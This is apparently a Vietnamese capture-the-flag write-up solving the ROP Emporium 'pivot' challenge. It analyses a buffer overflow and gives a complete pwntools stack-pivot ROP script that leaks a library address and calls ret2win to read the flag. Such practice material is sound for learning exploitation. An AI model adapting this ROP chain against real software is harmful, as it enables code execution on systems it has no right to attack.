**1. Tìm lỗi**

Chạy thử chương trình ta được



Ta thấy chương trình cho phép nhập 2 lầ và kết thúc ngay sau đó

Dùng lệnh checksec để kiểm tra:



Ta thấy canary đang ở trạng thái disabled -> Có thể khai thác bằng lỗi bof

Dùng lệnh file kiểm tra ta có:



Là file elf 64 bit -> Mở bằng ida64 ta có hàm main như sau:



Hàm pwnme:



Ta thấy biến s được khai báo 32 byte nhưng cho phép nhập 64 byte -> Có lỗi bof

Hàm uselessFunction:



Hàm foothold_function:



Hàm này chỉ in ra 1 chuỗi được gán vào rdi

Hàm free:



Hàm usefulGadgets:



 - xchg: là một lệnh x86-64 assembly. Nó hoán đổi giá trị của thanh ghi RSP (Stack Pointer) với giá trị của thanh ghi RAX.

Hàm ret2win:



Hàm này đọc file flag.txt và in ra giá trị flag nên chúng ta cần cố gắng để thực thi được hàm này

**2. Ý tưởng**

Chúng ta cần thực thi hàm foothold_function bởi hàm này cung cấp một offset mà chúng ta sử dụng để tính. Sau khi kiếm được offset trên thì tính toán với địa chỉ được cấp phát bằng lệnh malloc

Thứ tự payload:
 - Lấy địa chỉ pivot
 - Gọi hàm foothold_function
 - Tính toán địa chỉ ret2wwin
 - Đặt địa chỉ ret2win vào rax
 - thực hiện call rax để thực thi ret2win

**3. Viết script**


Ta có địa chỉ hàm ret2win và foothold_function trong file libpivot.so như trên -> khoảng cách của 2 hàm là: 0xfffffee9



Ta có được địa chỉ 0x0000000000400a33 chứa câu lệnh pop_rdi

Ta có được script như sau:

```
from pwn import *

elf = ELF('./pivot')
r = process("./pivot")

r.recvuntil('pivot: ')
pivot = int(r.recvline().strip(), 16)

pop_rax = 0x00000000004009bb
xchg = 0x00000000004009bd
foot_plt = elf.plt.foothold_function
foot_got = elf.got.foothold_function
put_pls = elf.plt.puts
ret2win = 0x0000000000000a81
foothold_function = 0x000000000000096a
add = ret2win - foothold_function
pop_rbp = 0x00000000004007c8
add_rax_rbp = 0x00000000004009c4
pop_rdi = 0x0000000000400a33
call_rax = 0x00000000004006b0
mov_rax = 0x00000000004009c0


payload = p64(foot_plt)
payload += p64(pop_rax)
payload += p64(foot_got)
payload += p64(mov_rax)
payload += p64(pop_rbp)
payload += p64(add)
payload += p64(add_rax_rbp)
payload += p64(call_rax)
r.sendlineafter("> ", payload)

payload = b'a'*40
payload += p64(pop_rax)
payload += p64(pivot)
payload += p64(xchg)
r.sendlineafter("> ", payload)
r.interactive()
```

**4. Lấy flag**


